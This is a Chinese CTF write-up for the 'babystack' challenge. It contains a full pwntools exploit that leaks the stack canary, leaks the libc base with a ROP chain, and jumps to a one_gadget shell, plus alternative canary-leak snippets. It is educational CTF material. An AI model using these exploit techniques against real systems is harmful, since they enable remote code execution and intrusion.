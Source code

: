 查看保护机制：
    Arch:           	amd64-64-little
    RELRO:      	Full RELRO
    Stack:          	Canary found
    NX:             	NX enabled
    PIE:             	No PIE (0x400000)
本题开了金丝雀，存在cookie

本题的大致代码如下：
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  memset(&s, 0, 0x80);
  while ( 1 )
  {
    puts("1.2.3...");
    if(read(0,&s,0x20)<0)
	return 1;
    v3 = atoi(&s);
	
    if ( v3 == 1 )
      read(0, &s, 0x100uLL);//strlen(s)<0x100//存在缓冲区溢出漏洞
    else if ( v3 == 2 )
    {
      puts(&s);//可将标识位拉出
      sub_400826((const char *)&unk_400AE7);
    }
    else if ( v3 == 3 )
      return 0LL;
    else
      sub_400826("invalid choice");
  }
    return 1;
}

查看缓冲区s的结构发现，总大小为090。而canary为var_8变量，在0x8的位置。
如图所示：
-0000000000000016                 db ? ; undefined
-0000000000000015                 db ? ; undefined
-0000000000000014                 db ? ; undefined
-0000000000000013                 db ? ; undefined
-0000000000000012                 db ? ; undefined
-0000000000000011                 db ? ; undefined
-0000000000000010                 db ? ; undefined
-000000000000000F                 db ? ; undefined
-000000000000000E                 db ? ; undefined
-000000000000000D                 db ? ; undefined
-000000000000000C                 db ? ; undefined
-000000000000000B                 db ? ; undefined
-000000000000000A                 db ? ; undefined
-0000000000000009                 db ? ; undefined
-0000000000000008 var_8           dq ?
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)

从上面可以看出buf距离canary的位置为0x88。

为了绕过canary机制，我们需要先想泄露canary的值，然后利用栈溢出，把这个值放到payload中对应的位置里，这样，程序发现canary的值没变，我们就成功绕过。
通过输入1，覆盖到标志位，再输入2 把表示位puts出来.可以通过将s填充满，使puts(s)时将canary泄露出来。
已知：

①canary为防止泄露，第一位已知为'\x00'
②puts()函数输出时，遇到'\x00'才停止，即使字符串中存在'\n',也会继续输出
③read函数在读取长度限制内，能够把'\n'也读进字符串中
（0）准备（注意题目给的libc与服务器给出的libc版本不一致）
#coding=UTF-8
from pwn import * 
import sys
from time import sleep
context.log_level = "debug"
# context.terminal = ["deepin-terminal", "-x", "sh", "-c"]
#此处的exeaddr不同于以往ROPgadget找到"/bin/sh"和system函数的地址，是用onegadget直接找到execve("/bin/sh", rsp+0x30, environ)的地址，所以只需跳转到此地址即可获得shell。
#命令：one_gadget libc-2.23.so 。 OneGadget，就是直接执行 execve('/bin/sh', NULL, NULL)
    def debug():
        addr = int(raw_input("DEBUG: "), 16)
        gdb.attach(io, "b *" + str(addr))

    if sys.argv[1] == "l":
        io = process("./babystack")
        elf = ELF("./babystack")
        libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
        exe_addr = 0x3f2d6
    else:
        io = remote("1c6a6fb.isec.anscen.cn", 1234)
        elf = ELF("./babystack")
        libc = ELF("./libc-2.23.so")
        exe_addr = 0x45216

（1）获取canary
 def getCanary():
        io.sendlineafter(">> ", "1")
        payload = cyclic(0x88)
        #  debug()
#发送0x88个padding加上'\n'。先发送0x88长度的字符串+'\n'，read函数会读进0x89个字节，并将canary第一个字节覆盖，之后puts便能将canary泄露出来。
        io.sendline(payload)
        io.sendlineafter(">> ", "2")
        sleep(1)
        io.recvuntil("\n")
        sleep(1)
        canary = u64("\x00" + io.recv(7))
        #  print hex(canary)
        log.debug("leaked canary -> 0x%x" % canary)
        return canary

（2）获得链接库地址偏移(题目已知libc的情况)
def getBase(canary):
        read_got = elf.got["read"]
        read_plt = elf.plt["read"]
        puts_plt = elf.plt["puts"]
        #  start_plt = elf.symbols["start"]
        #  start_plt = 0x400720
        start_plt = 0x400908
        pop_rdi_ret = 0x0000000000400a93
        pop_rsi_r15_ret = 0x0000000000400a91
        io.sendlineafter(">> ", "1")
        #  log.info("------------------")
#泄露链接库地址基址时，只需将canary的位置使用上一步中泄露出来的canary进行覆盖，获取链接库地址偏移和寄存器利用，详见(http://www.cnblogs.com/ZHijack/p/7900736.html)
#ret2libc尝试和(http://www.cnblogs.com/ZHijack/p/7940686.html)64位简单栈溢出。最后返回start函数，重新执行。
#命令： ROPgadget --binary babystack --only 'pop|ret' | grep 'rdi'
        payload = cyclic(0x88) + p64(canary) * 2 + p64(pop_rdi_ret) + p64(read_got) + p64(puts_plt) + p64(start_plt)
        #  print len(payload)
        io.sendline(payload)
        io.sendlineafter(">> ", "3")
        #  debug()
        #  log.info("------------------")
        sleep(1)
        read_leaked = u64(io.recv(6).ljust(8, '\x00'))
        log.debug("read_leaked -> 0x%x" % read_leaked)
        read_libc = libc.symbols["read"]
        libc_base = read_leaked - read_libc
        log.debug("leaked libcBase -> 0x%x" % libc_base)
        return libc_base

（3）获取shell
def getShell(canary, libcBase):
        io.sendlineafter(">> ", "1")
        exeAddr = libcBase + exe_addr
#重新执行函数后，需重新泄露canary，然后进行溢出，即可获得shell。 
        payload = cyclic(0x88) + p64(canary) * 2 + p64(exeAddr)
        io.sendline(payload)
        #  debug()
        io.sendlineafter(">> ", "3")

        io.interactive()
        io.close()

（4）主函数执行：
if __name__ == "__main__":
        canary = getCanary()
        libcBase = getBase(canary)
        canary = getCanary()
        getShell(canary, libcBase)

虽然程序本身没有开启随机地址，但是其链接库开启了PIE保护，所以我们需要两次溢出：
先获得函数地址在libc库中的偏移，进而得到需要函数在内存中的真实地址，然后在溢出执行system函数获取shell。

writeup1：
脚本分为三个部分，结构比较清晰。





writeup2：
（这段payload直接强制记下来吧，没有看懂）
1.#0x88过后0x89开始便是canary，但由于0x89可能是0,为了利用put泄露canary，我们就先将这里覆盖为aa
2.payload='a'*(0x88)
3.
4.c=''
5.#覆盖canary的前导0
6.for i in range(0,8):
7.	sh.send(payload+'a'*i)
8.	sh.recvuntil('>>')
9.	sh.sendline('2')
10.	sh.recv(0x88+i)
11.	c=sh.recvuntil('\n').split('\n')[0]
12.#	print c
13.	l=len(c)
14.	if l>4:#长度大于我们发送的字符串长度，说明数据已经暴露出来了
15.		break;
16.	sh.recvuntil('>>')
17.	sh.sendline('1')
18.#print c
19.#补齐8字节
20.for j in range(0,i):
21. c='\x00'+c
22.
23.#取前8字节数据，这才是canary
24.c=c[0:8]
得到了canary，我们就可以进行栈溢出ROP操作了


此writeup有困扰我很久的问题的题解：（查找rdi问题）
为了将数据放入 rdi 寄存器，我们需要找到一条 pop rdi 的指令，我们不能把指令写在栈里，因为开启了栈不可执行保护。我们发现了，在 IDA 中搜索 pop，我们发现了这里可以被我们利用
我们选择 pop r15，选择 undefine
然后选择下面的两字节数据，选择 Code
就出现了 pop rdi 指令,这是一种巧妙的方法，类似的，我们可以对 r14,r13 操作，获
得其他相关指令，它的地址为 0x400A93，并且过后还有一个 retn，我们完全可以把这里看
成是一个函数的开始
这个writeup应为最符合做法的一个


writeup3：
#GET CANARY
payload = 'a' * 0x88
signal = '95279527'
payload = payload[:-len(signal)] + signal

conn.sendlineafter('>> ', '1')
conn.sendline(payload)

conn.sendlineafter('>> ', '2')
conn.recvuntil(signal + '\n')

'''
    if we use sendline
    then there's an extra '\n' byte
'''

canary = u64(conn.recv(7).rjust(8, '\x00'))

log.info('Canary Found: %s' % hex(canary))
